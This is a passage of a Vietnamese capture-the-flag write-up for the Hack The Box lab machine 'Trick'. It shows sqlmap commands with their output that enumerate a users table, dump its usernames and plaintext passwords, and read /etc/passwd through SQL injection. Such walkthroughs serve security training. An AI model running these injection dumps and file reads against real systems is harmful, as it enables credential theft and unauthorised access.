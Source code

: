 ```console
| payroll_items       |
| users               |
+---------------------+
```

→ Có tổng cộng 11 `tables`, quan sát thấy `table` ***users*** (có vẻ như đây là table chứa các thông tin đăng nhập vào trang web)  

Thực hiện enum xem có `table` này có tổng cộng bao nhiêu `attributes` hay `columns`.

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --columns -D payroll_db -T users --batch
<--SNIP-->
Database: payroll_db
Table: users
[8 columns]
+-----------+--------------+
| Column    | Type         |
+-----------+--------------+
| address   | text         |
| contact   | text         |
| doctor_id | int(30)      |
| id        | int(30)      |
| name      | varchar(200) |
| password  | varchar(200) |
| type      | tinyint(1)   |
| username  | varchar(100) |
+-----------+--------------+
```

Tiếp tục dump `username`, `password` của từng user có trong bảng `users`

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --dump -D payroll_db -T users -C username,password --batch
<--SNIP-->
Database: payroll_db
Table: users
[1 entry]
+------------+-----------------------+
| username   | password              |
+------------+-----------------------+
| Enemigosss | SuperGucciRainbowCake |
+------------+-----------------------+
```

→ chỉ có 1 user duy nhất và cũng là Admin duy nhất (Không có gì mới).

Đã vậy, xem thử mình có quyền đọc file không ha. Để kiểm tra thì ta sẽ đọc file passwd của server.

```console
kali@kali:~/machines.HTB/Trick/exploit$ sqlmap -r trick.req --file-read '/etc/passwd' --batch --threads 10
<--SNIP-->
[*] /home/kali/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd (same file)
```
